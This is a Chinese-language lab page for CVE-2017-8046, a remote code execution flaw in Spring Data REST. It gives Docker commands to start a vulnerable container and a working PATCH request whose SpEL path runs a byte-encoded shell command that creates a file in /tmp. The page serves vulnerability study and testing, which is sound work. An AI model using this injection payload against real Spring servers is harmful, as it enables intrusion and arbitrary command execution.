 ```yaml
---
layout: post
title: "Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)"
date: 2017-09-29 13:12:41
image: '/assets/img/'
description: 'Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)'
main-class: 'hole'
color: '#B31917'
tags:
- Spring
- RCE
categories:
- Spring
twitter_text: 'Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)环境'
introduction: 'Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)环境'
---
```


### 漏洞信息

 * [CVE-2017-8046: RCE in PATCH requests in Spring Data REST](https://pivotal.io/security/cve-2017-8046)
 * [这个Spring高危漏洞，你修补了吗？--  其河@美团点评技术团队](https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA)

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:s_spring_1
 ```

2. 启动环境
 ```
$ docker run -d -p 8080:8080 medicean/vulapps:s_spring_1
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

#### PoC

1. 访问 `http://127.0.0.1:8080/`，测试服务是否启动成功
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-1.png)

2. 利用 POST 请求添加一个数据
    ```
    POST /persons HTTP/1.1
    Host: 127.0.0.1:8080
    Content-Type: application/json
    Cache-Control: no-cache
    
    {"firstName": "VulApps", "lastName": "VulApps"}
    ```
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-2.png)

3. 执行 PoC
    ```
    PATCH /persons/1 HTTP/1.1
    Host: 127.0.0.1:8080
    Content-Type: application/json-patch+json
    Cache-Control: no-cache
    Content-Length: 228
    
    [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{47,117,115,114,47,98,105,110,47,116,111,117,99,104,32,47,116,109,112,47,118,117,108,110}))/lastName", "value": "vulapps-demo" }]
    ```
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-3.png)

4. 进入容器，发现成功创建文件
 ![](https://github.com/Medicean/VulApps/raw/master/s/spring/1/poc-4.png)

### 参考链接

* [这个Spring高危漏洞，你修补了吗？--  其河@美团点评技术团队](https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA)

### 改动日志

* 2017/09/29 删除原 jar 包中 mongodb 依赖
